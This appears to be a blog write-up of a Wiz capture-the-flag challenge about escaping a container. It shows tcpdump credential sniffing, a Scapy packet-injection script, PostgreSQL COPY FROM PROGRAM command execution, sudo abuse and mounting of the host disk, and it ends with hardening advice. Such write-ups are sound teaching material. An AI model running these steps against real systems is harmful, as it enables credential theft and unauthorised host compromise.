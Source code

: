 ```yaml
---
layout: post
title: "Wiz CTF July 2025: Contain Me If You Can - A PostgreSQL Container Escape"
date: 2025-08-10
categories: [ctf, security]
tags: [ctf, security, container-escape, postgresql, docker, pentesting]
excerpt: "Exploiting network traffic capture, PostgreSQL command execution, and container misconfigurations to achieve a complete container escape and access the host filesystem."
---
```


## Challenge Overview

In this Wiz CTF challenge, I achieved a complete container escape by chaining together network traffic analysis, database exploitation, and container misconfigurations. The attack path involved capturing PostgreSQL credentials from unencrypted network traffic, leveraging database privileges for command execution, and ultimately mounting the host filesystem to retrieve the flag.

## Vulnerabilities Exploited

**Container Escape via Database Exploitation** combining:
- Unencrypted PostgreSQL network traffic
- PostgreSQL `COPY TO/FROM PROGRAM` command execution
- Excessive sudo privileges on database user
- Container access to host block devices

## Attack Steps

### 1. Initial Reconnaissance

I started by exploring the container environment to identify potential attack vectors:

```bash
ps aux
netstat -tunap
```

This revealed an active PostgreSQL connection on port 5432 between containers, which became my primary target.

### 2. Network Traffic Capture and Analysis

I captured the database traffic to extract credentials:

```bash
# Start packet capture in background
tcpdump -i eth0 -s 0 -w /tmp/pgdump.pcap port 5432 &
```

Next, I used Scapy to analyze the traffic and attempt a direct exploitation:

```python
from scapy.all import *
import struct

# Capture PostgreSQL server response
pkts = sniff(count=1, filter="tcp and src host 172.19.0.2 and src port 5432", timeout=10)

if pkts:
    server_pkt = pkts[0]
    my_seq = server_pkt[TCP].ack
    payload_len = len(server_pkt[Raw].load) if server_pkt.haslayer(Raw) else 0
    my_ack = server_pkt[TCP].seq + payload_len
    my_sport = server_pkt[TCP].dport

    # Craft PostgreSQL COPY TO PROGRAM packet
    exploit_cmd = 'sudo cat /flag'
    pg_query = f"COPY (SELECT '') TO PROGRAM '{exploit_cmd}'"
    query_payload = pg_query.encode('utf-8')
    query_length = len(query_payload) + 4 + 1
    pg_packet_data = b'Q' + struct.pack('>I', query_length) + query_payload + b'\x00'

    ip = IP(src="172.19.0.3", dst="172.19.0.2")
    tcp = TCP(sport=my_sport, dport=5432, flags="PA", seq=my_seq, ack=my_ack)
    exploit_packet = ip/tcp/pg_packet_data

    send(exploit_packet, verbose=0)
    print("[+] Direct flag read attempt sent!")
```

While the initial packet injection didn't work directly, I extracted the database credentials from the capture:

```bash
strings /tmp/pgdump.pcap
# Found: user, mydatabase, SecretPostgreSQLPassword
```

### 3. Direct PostgreSQL Connection

With the extracted credentials, I connected to the database:

```bash
psql -h 172.19.0.2 -U user -d mydatabase
# Password: SecretPostgreSQLPassword
```

### 4. PostgreSQL Command Execution and Privilege Discovery

I created a temporary table to capture command output:

```sql
CREATE TEMP TABLE out(line text);

-- Check current privileges
COPY out FROM PROGRAM 'id 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Result: uid=999(postgres) gid=999(postgres)

-- Check sudo capabilities
COPY out FROM PROGRAM 'sudo -l 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Result: (ALL) NOPASSWD: ALL
```

This revealed the postgres user had unrestricted sudo access - a critical misconfiguration.

### 5. Container Escape - Device Discovery

I enumerated available storage devices to identify escape paths:

```sql
-- List block devices
COPY out FROM PROGRAM 'sudo fdisk -l 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Found: /dev/vda (squashfs), /dev/vdb

-- Check current mounts
COPY out FROM PROGRAM 'sudo cat /proc/mounts 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Create mount point
COPY out FROM PROGRAM 'sudo mkdir -p /mnt/host 2>&1';
SELECT * FROM out; TRUNCATE out;
```

### 6. Container Escape - Host Filesystem Access

With access to host block devices, I mounted the host filesystem:

```sql
-- Mount the host root filesystem
COPY out FROM PROGRAM 'sudo mount /dev/vda /mnt/host 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Verify mount
COPY out FROM PROGRAM 'sudo ls -la /mnt/host/ 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Read the flag from host
COPY out FROM PROGRAM 'sudo cat /mnt/host/flag 2>&1';
SELECT * FROM out; TRUNCATE out;
```

**Flag:** `CTF{how_turned_guests_to_hosts}`

## Key Takeaways

This challenge demonstrated a sophisticated container escape chain:

1. **Network Traffic Analysis**: Captured and extracted PostgreSQL credentials from unencrypted network traffic
2. **Database Command Execution**: Leveraged PostgreSQL's `COPY TO/FROM PROGRAM` to execute arbitrary commands
3. **Privilege Escalation**: Exploited misconfigured sudo permissions on the postgres user
4. **Container Escape**: Mounted host block devices to access the underlying filesystem

The attack succeeded because:
- Database traffic was unencrypted and contained credentials
- The postgres user had unrestricted sudo access
- The container had access to host block devices (`/dev/vda`)
- The container ran with sufficient privileges to mount filesystems

### Alternative Methods I Attempted

- **Core Pattern Escape**: Tried `/proc/sys/kernel/core_pattern` for code execution
- **Namespace Escape**: Attempted `nsenter` to join host namespaces
- **Process Tree Analysis**: Explored `/proc/1/root` for host filesystem access

This highlights critical security principles:
- **Network Encryption**: Always encrypt database connections, even between containers
- **Least Privilege**: Service accounts should never have unrestricted sudo access
- **Container Hardening**: Isolate containers from host devices using proper security contexts
- **Device Restrictions**: Use `--device` flags carefully and avoid exposing host block devices
- **Security Monitoring**: Log privileged operations and unusual network patterns